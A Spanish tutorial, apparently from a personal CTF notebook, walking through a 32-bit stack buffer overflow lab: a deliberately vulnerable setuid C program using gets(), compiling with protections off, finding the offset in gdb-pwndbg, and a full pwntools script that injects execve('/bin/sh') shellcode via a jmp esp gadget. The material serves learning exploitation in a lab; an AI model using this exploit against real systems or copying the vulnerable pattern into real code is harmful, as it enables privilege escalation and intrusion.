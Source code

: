 ```yaml
---
original autor: CrazyCat
coautor: naibu3
---
```


#bufferOverflow 

## ¿Qué es?

Ya hemos visto cómo funciona un [[Buffer overflow]] de tipo [[Ret2Win]], y como poder pasar parámetros. Sin embargo, en multitud de ocasiones no existirá una función concreta a la que llamar. En estos casos, podremos tratar de inyectar en el *stack* un *shellcode* que nos otorgará una *shell*.

## Ejercicio1

### Compilar el binario

Para este ejercicio utilizaremos el siguiente código (está en la carpeta de ejercicios):

```c
#include <stdio.h>

int secret_function() {
    asm("jmp %esp");
}

void receive_feedback()
{
    char buffer[64];

    puts("Please leave your comments for the server admin but DON'T try to steal our flag.txt:\n");
    gets(buffer);
}

int main()
{
    setuid(0);
    setgid(0);

    receive_feedback();

    return 0;
}
```

En este caso no tenemos una función maliciosa, aunque sí que hay una función a la que no se llama. Esto se debe a que tendremos que hacer uso de un *gaget ROP*, `jmp %esp`, por ello está dentro de la función `secret_function`.

Por otro lado, con `setuid` y `setgid` hacemos que el binario se ejecute como *root*, dando como resultado que la *shell* que obtengamos tenga privilegios.

La idea sería tener un archivo *flag.txt* que sólo pueda ser leído por el administrador, de forma que tengamos que conseguir una *shell* como *root* para leerlo.

Vamos a compilar el binario, es importante que no tenga la protección *NX* (`-z execstack`), ya que es la que hace que no podamos ejecutar instrucciones alojadas en el *stack*. 

```bash
gcc -o server server.c -fno-stack-protector -z execstack -no-pie -m32
```


### Análisis del binario

Como hemos dicho, si lanzamos [[checksec]], debería tener una salida tal que:

```checksec
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Importante que esté el `NX disabled`. También podríamos lanzar [[ghidra]] y *file*, pero como hemos compilado nosotros el código no es necesario.

Vamos a proceder al análisis con [[gdb]]-[[pwndbg]], comenzando por encontrar el *offset* hasta sobrescribir la dirección de retorno con *cyclic*:

```bash
gdb-pwndbg server
```
```gdb-pwndbg
cyclic 100
```
```gdb-pwndbg
run
```
```server
Please leave your comments for the server admin but DON'T try to steal our flag.txt:

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
```

Como siempre, revisamos el valor de `EIP`:

```gdb-pwndbg
*EBP  0x61616173 ('saaa')
*ESP  0xffffd0b0 ◂— 'uaaavaaawaaaxaaayaaa'
*EIP  0x61616174 ('taaa')
```

Y con *cyclic* calculamos el *offset*:

```bash
cyclic -l taaa
```
```cyclic
Found at offset 76
```

Como vemos, es 76. Como teníamos una función que llamaba a la instrucción `jmp %esp`, podemos tratar de me introducir en dicho registro un *shellcode* y llamar a dicha instrucción.

Como hemos visto antes, el registro `esp` es el contiguo a `eip` (`eip` contenía `taaa` y `esp`, `uaaav...`), por tanto podríamos hacer la prueba introduciendo caracteres con python2:

```bash
python2 -c 'print "A"*76 + "B"*4 + "C"*100'
```

Si copiamos la salida y se la pasamos al programa mediante [[gdb]]-[[pwndbg]], podremos ver lo siguiente:

```server
Please leave your comments for the server admin but DON'T try to steal our flag.txt:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
```
```gdb-pwndbg
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd0b0 ◂— 'CCCCCCCC[...]'
*EIP  0x42424242 ('BBBB')
```

Por lo que podemos concluir que efectivamente somos capaces de escribir en dicho registro y en la dirección de retorno.


## Explotación

Para la explotación, almacenaremos un *shellcode* en `esp` y sobrescribiremos la dirección de retorno con la dirección del *gadget* (la instrucción en ensamblador) de `secret_function` (`jmp %esp`), de forma que dicha instrucción ejecutará el *shellcode*.

Para obtener la dirección del *ROP gadget* (la instrucción) `jmp %esp`, utilizaremos [[ropper]]:

```bash
ropper --file server --search "jmp esp"
```
```ropper
0x0804919f: jmp esp;
```

Por otro lado, el *shellcode* que utilizaremos lo obtendremos con la herramienta *shellcraft* (incluida en la librería [[pwntools]]):

```bash
shellcraft -l | grep linux | grep sh
```
```shellcraft
[...]
i386.linux.sh
[...]
```

```bash
shellcraft i386.linux.sh -f a
```
```shellcraft
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```
> Para verla en formato ensamblador.

Para la explotación utilizaremos python3 y la librería [[pwntools]]. Crearemos un *script* que simplificará el proceso. El *script* es el siguiente:

```python
#!/bin/python3

from pwn import *

exe = './server'

#Automatically get context arch, bits, os etc, para luego poder buscar rop gadgets
elf = context.binary = ELF(exe, checksec=False)

#context.log_level = 'debug'    #Modo debug para ver que esta pasando

io = process(exe)

#Offset hasta EIP
padding = 76

jmp_esp = asm('jmp esp')    #Crea la instruccion jmp esp en ensamblador para poder buscarla
jmp_esp = next(elf.search(jmp_esp))     #Busca la secuencia jmp esp en el contexto

shellcode = asm(shellcraft.sh())

#shellcode += asm(shellcraft.exit())

# Build payload
payload = flat(
    asm('nop') * padding,   # Podrian ser A, pero es mas correcto
    jmp_esp,
    #asm('nop') * 16,   #A veces se necesita un pequeño offset, que debe ser nops para que no se ejecute
    shellcode
)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

Como vemos, debemos buscar la instrucción (en ensamblador) en el contexto del binario. Posteriormente, creamos un *payload* y lo pasamos al programa, para finalmente ponernos en modo interactivo para utilizar la *shell*.

Y ya estaríamos dentro!
